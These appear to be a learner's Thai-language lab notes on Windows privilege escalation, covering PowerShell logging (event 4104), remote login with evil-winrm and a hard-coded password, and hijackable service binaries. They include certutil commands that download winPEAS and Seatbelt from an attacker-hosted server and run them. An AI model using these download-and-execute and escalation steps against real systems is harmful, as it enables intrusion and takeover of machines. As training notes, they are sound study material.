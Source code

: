 [[WinEventlogSearching]]
การตรวจสอบ Event ภายใต้ Windows สามารถใช้ Event Viewer ในการตรวจสอบที่ PATH: Application and service Logs > Microsoft > Windows > PowerShell > Operation   Script Block logging event in windows is 4104 

![[EventID4104.png]]

![[EVENTID4104-2.png]]


[[evil-winrm]]
```
# Command บน Kali สำหรับ Powershell ไปยัง Windows 
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```


Level 2 Automate tools 

```bash
# ติดตั้ง WinPeas
sudo apt install peass 
updatedb 
locate winpeas
/usr/bin/winpeas
/usr/share/peass/winpeas
/usr/share/peass/winpeas/winPEAS.bat
/usr/share/peass/winpeas/winPEASany.exe
/usr/share/peass/winpeas/winPEASany_ofs.exe
/usr/share/peass/winpeas/winPEASx64.exe
/usr/share/peass/winpeas/winPEASx64_ofs.exe
/usr/share/peass/winpeas/winPEASx86.exe
/usr/share/peass/winpeas/winPEASx86_ofs.exe

python3 -m http.server 80
certutil.exe -urlcache -split -f http://192.168.45.168/winPEASx64.exe winPEASx64.exe
.\winPEASx64.exe


# Seatbelt Repo 
https://github.com/GhostPack/Seatbelt
# Download Binaries file@
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git

python3 -m http.server 80 
certutil.exe -urlcache -split -f http://192.168.45.241/Seatbelt.exe Seatbelt.exe  
.\Searbelt.exe -group=all 

```


Level 3: Hack Windows Service 

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

|Mask|Permissions|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

# ตรวจสอบสิทธิของ httpd.exe หรือ App ที่สนใจว่า user ที่เราใช้มีสิทธิอะไรบนไฟล์หรือ Service ดังกล่าว โดขให้มองหาสิทธิที่เป็น Full หรือ RX 
icacls "C:\xampp\apache\bin\httpd.exe"
```